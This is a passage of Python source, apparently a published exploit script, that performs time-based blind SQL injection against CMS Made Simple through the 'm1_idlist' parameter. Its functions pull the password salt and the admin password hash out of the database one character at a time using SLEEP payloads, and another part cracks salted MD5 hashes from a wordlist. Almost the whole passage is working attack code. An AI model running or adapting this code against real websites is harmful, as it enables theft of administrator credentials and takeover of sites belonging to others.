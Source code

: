 ```python
            if hashlib.md5((str(salt) + line).encode('utf-8')).hexdigest() == password:
                output += "\n[+] Password cracked: " + line
                break

def beautify_print_try(value):
    global output
    print("\033c")
    cprint(output,'green', attrs=['bold'])
    cprint('[*] Try: ' + value, 'red', attrs=['bold'])

def beautify_print():
    global output
    print("\033c")
    cprint(output,'green', attrs=['bold'])

def dump_salt():
    global flag
    global salt
    global output
    ord_salt = ""
    ord_salt_temp = ""
    while flag:
        flag = False
        for i in range(0, len(dictionary)):
            temp_salt = salt + dictionary[i]
            ord_salt_temp = ord_salt + hex(ord(dictionary[i]))[2:]
            beautify_print_try(temp_salt)
            payload = f"a,b,1,5))+and+(select+sleep({str(TIME)})+from+cms_siteprefs+where+sitepref_value+like+0x{ord_salt_temp}25+and+sitepref_name+like+0x736974656d61736b)+--+"
            url = url_vuln + "&m1_idlist=" + payload
            start_time = time.time()
            r = session.get(url)
            elapsed_time = time.time() - start_time
            if elapsed_time >= TIME:
                flag = True
                break
        if flag:
            salt = temp_salt
            ord_salt = ord_salt_temp
    flag = True
    output += '\n[+] Salt for password found: ' + salt

def dump_password():
    global flag
    global password
    global output
    ord_password = ""
    ord_password_temp = ""
    while flag:
        flag = False
        for i in range(0, len(dictionary)):
            temp_password = password + dictionary[i]
            ord_password_temp = ord_password + hex(ord(dictionary[i]))[2:]
            beautify_print_try(temp_password)
            payload = f"a,b,1,5))+and+(select+sleep({str(TIME)})+from+cms_users+where+password+like+0x{ord_password_temp}25+and+user_id+like+0x31)+--+"
            url = url_vuln + "&m1_idlist=" + payload
            start_time = time.time()
            r = session.get(url)
            elapsed_time = time.time() - start_time
            if elapsed_time >= TIME:
                flag = True
                break
```